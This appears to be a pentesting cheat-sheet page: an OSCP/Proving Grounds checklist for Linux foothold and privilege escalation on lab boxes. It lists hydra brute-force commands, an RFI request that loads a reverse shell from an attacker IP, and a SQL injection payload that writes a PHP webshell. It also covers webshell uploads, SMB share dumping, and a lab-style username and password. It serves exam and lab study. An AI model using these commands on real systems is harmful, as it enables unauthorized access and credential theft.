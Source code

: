 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Linux

{% hint style="info" %}
Based on the following PG Practice, PG Play, and PEN-200 boxes: Amaterasu, Apex, Astronaut, BBScute, BitForge, Blogger, Bratarina, Bullybox, ClamAV, Clue, Cockpit, Exfiltrated, Extplorer, Fanatastic, Fired, Flu, FunboxEasyEnum, Gaara, GlasgowSmile, Hawat, Hetemit, Hunit, LaVita, Levram, Loly, Mantis, Marketing, Mzeeav, Nibbles, Nukem, Payday, PC, Pebbles, Pelican, Peppo, Postfish, Potato, QuackerJack, Readys, Roquefort, Scrutiny, Snookums, Sorcerer, SpiderSociety, SPX, Stapler, Sybaris, Vmdak, Walla, WallpaperHub, Wombo, Workaholic, Xposedapi, Zab, ZenPhoto, Zipper,  Crystal (OSCP A), Aero (OSCP A), Berlin (OSCP B), Kiero (OSCP B),  Frankfurt (OSCP C), and Charlie (OSCP C).
{% endhint %}

## Foothold

<details>

<summary>Port Scan</summary>

The `nmap-scan` script can be found [here](https://github.com/CSpanias/ctf-scripts/tree/main?tab=readme-ov-file#nmap-scansh).

```bash
sudo nmap-scan <target-IP>
```

</details>

<details>

<summary>HTTP(S)</summary>

* [ ] [Dirbust](../../web/dirbusting.md) HTTP(S) ports with a [directory list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt) (plus server-specific extensions) and a [file list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-files.txt)&#x20;

{% code overflow="wrap" %}
```bash
# Dirbust with a directory list
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic -ac -c -u http://access/FUZZ -e .aspx,.php,
​
​# Dirbust with a file list
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -ic -ac -c -u http://access/FUZZ
```
{% endcode %}

* [ ] [File Uploads](https://x7331.gitbook.io/boxes/web/file-uploads)
* [ ] Default/Weak Creds

```bash
uv run creds search <appName>
```

* [ ] BFA

{% code overflow="wrap" %}
```bash
# POST request
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER^&password=^PASS^:F=403'

# POST request (base64-encoded credentials)
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER64^&password=^PASS64^:F=403'
```
{% endcode %}

* [ ] Application-specific PoCs (RCE, LFI, RFI)

{% code overflow="wrap" %}
```bash
# CLI tool
searchsploit <appName> <version>

# Google dork
site:github.com <appName> exploit poc

# RFI revshell
curl --path-as-is -s "http://10.10.10.10:4443/site/index.php?page=http://192.168.45.241:443/revshell_ivan.php" --proxy 127.0.0.1:8080
```
{% endcode %}

* [ ] [WebDAV](https://x7331.gitbook.io/boxes/web/webdav)

{% code overflow="wrap" %}
```bash
# Connect to WebDAV
cadaver http://x7331
Authentication required for hutch on server 'x7331':
Username: x7331
Password:
# Upload a webshell
dav:/> put /usr/share/webshells/aspx/cmdasp.aspx cmdasp.aspx

# Upload a webshell directly
curl -T '/home/kali/shell.aspx' 'http://192.168.64.122/' -u x7331:Pass123!
```
{% endcode %}

* [ ] [Custom wordlists](https://x7331.gitbook.io/boxes/tools/wordlists)

```bash
# Create a userlist based on the site users
username-anarchy -i site_users > anarchy_output

# Create a passlist based on the site content
cewl --write cewl_output http://192.168.202.21/
```

* [ ] [SQLi](https://x7331.gitbook.io/boxes/web/injections/sqli) (`sqlmap` is allowed for enumeration but not for exploitation)

{% code overflow="wrap" %}
```bash
# Enumeration
sqlmap -r login.req --batch

# Webshell
a' UNION SELECT "<?php echo shell_exec($_GET['c']); ?>" INTO OUTFILE 'C:/xampp/htdocs/webshell.php'--

# RCE
$ curl -s --path-as-is "http://192.168.180.127:45332/webshell.php?c=whoami"
```
{% endcode %}

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/remote-access/22-ssh">SSH</a></summary>



</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] Known vulnerabilities

```bash
sudo nmap -script=smb-vuln\* -p445 10.10.10.10
```

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/shares/21-ftp">FTP</a></summary>

* [ ] Anonymous login

{% code overflow="wrap" %}
```bash
# Anonymous login
ftp anonymous@target
ftp ftp@target
```
{% endcode %}

* [ ] BFA

```bash
hydra -l <user> -P <passlist> ftp://<target>
```

* [ ] Enumerate directories

```bash
# Download dir
wget -r ftp://ftp@target_directory
```

* [ ] Upload files

```bash
ftp> put revshell_ivan.php
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/mail/25-587-smtp">SMTP</a>, <a href="https://x7331.gitbook.io/boxes/services/tcp/mail/110-995-pop3">POP3</a></summary>

* [ ] Username enumeration (SMTP)

```bash
smtp-user-enum -M VRFY -U anarchy_output -t 10.10.10.10
```

* [ ] Inbox enumeration (POP3)

```bash
$ telnet 10.10.10.10 110
USER x7331
+OK x7331 is known here.
PASS Pass123!
+OK Welcome! 4 messages (4744 bytes)
LIST
+OK 4 messages, 4744 bytes
1 1342
2 963
3 1347
4 1092
RETR 1
```

* [ ] Phising attachments ([library-ms](https://x7331.gitbook.io/boxes/social-engineering/phising#attachment), [libre-office](https://x7331.gitbook.io/boxes/web/file-uploads/file-types/libreoffice), [pdf](https://x7331.gitbook.io/boxes/web/file-uploads/file-types/pdf))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp">​Unique Ports</a></summary>



</details>

## Privilege Escalation

<details>

<summary>User Context</summary>

* [ ] [Permissions](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/host-recon#users-and-groups)

```bash
sudo -l
```

* [ ] [Groups](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/privilege-escalation/groups)

```bash
groups
```

* [ ] Shell History

{% code overflow="wrap" %}
```bash
cat /home/x7331/.bash_history
```
{% endcode %}

</details>

<details>

<summary>Host Enumeration</summary>

* [ ] [LinPEAS](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pe-scripts#linux)
* [ ] Running processes ([pspy](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pspy))
* [ ] [SUIDs](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/host-recon#files)

```bash
find / -type f -perm -u=s 2>/dev/null
```

* [ ] [Kernel](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/host-recon#system)

```bash
uname -a
```

* [ ] [Local Services](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/host-recon#system)

```bash
netstat -ano
```

* [ ] [Cronjobs](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/privilege-escalation/cronjobs)

```bash
crontab -l
cat /etc/crontab
cat /var/log/syslog | grep "CRON"
```

</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/3306-mysql-mariadb">MySQL/MariaDB</a></summary>

* [ ] Enumerate tables

</details>
